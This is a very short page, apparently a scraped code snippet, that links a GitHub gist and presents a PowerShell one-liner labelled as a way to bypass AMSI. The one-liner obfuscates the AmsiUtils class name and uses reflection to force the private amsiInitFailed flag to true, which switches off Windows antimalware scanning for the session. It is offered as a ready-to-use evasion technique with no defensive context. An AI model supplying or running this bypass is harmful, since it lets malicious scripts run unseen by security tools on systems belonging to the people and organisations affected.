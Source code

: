 

https://gist.github.com/D3Ext/bf57673644ba08e729f65892e0dae6c4

One-liner to bypass AMSI:
```powershell
$a='si';$b='Am';$Ref=[Ref].Assembly.GetType(('System.Management.Automation.{0}{1}Utils'-f $b,$a)); $z=$Ref.GetField(('am{0}InitFailed'-f$a),'NonPublic,Static');$z.SetValue($null,$true)
```

